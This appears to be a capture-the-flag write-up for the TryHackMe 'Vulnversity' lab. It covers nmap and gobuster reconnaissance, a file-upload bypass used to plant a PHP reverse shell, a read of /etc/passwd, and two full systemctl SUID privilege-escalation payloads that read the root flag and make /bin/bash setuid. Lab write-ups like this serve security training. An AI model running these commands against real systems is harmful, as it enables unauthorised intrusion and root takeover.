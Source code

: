 ```yaml
---
layout: post
permalink: /posts/thm/vulnversity
title: "Vulnversity"
---
```


Here is another enjoyable room. As always lets scan the target machine with nmap.

```
nmap -sC -sV <machine-ip>
```

![nmap-scan](/assets/images/thm/vulnversity/nmap-scan.png)

From the nmap result we can see there are open ports 21, 22, 139, 445, 3128 and 3333. Go and visit the website on port 3333

![website](/assets/images/thm/vulnversity/website.png)

Now scan the website with gobuster

```
gobuster dir -u http://<machine-ip> -w SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

We have found a directory /internal

![internal](/assets/images/thm/vulnversity/internal.png)

After some tries we found out we can uploat files with .phtml extension. Upload php reverse shell code, set listener and go to http://10.10.176.156:3333/internal/uploads and open your script. Now we have shell access.

```
cat /etc/passwd
```

![passwd](/assets/images/thm/vulnversity/passwd.png)

Search for files with SUID permisson

```
find / -user root -perm -4000
```

![suid](/assets/images/thm/vulnversity/suid.png)

Search for prev esc https://gtfobins.github.io/gtfobins/systemctl/ <br />
Keep in mind that you might need to press Enter additionally after you’ve pasted and ran the commands.

```
-----------------------
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
-----------------------
to get root access

-----------------------------------------------------------
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
-----------------------------------------------------
press Enter and type bash -p
```
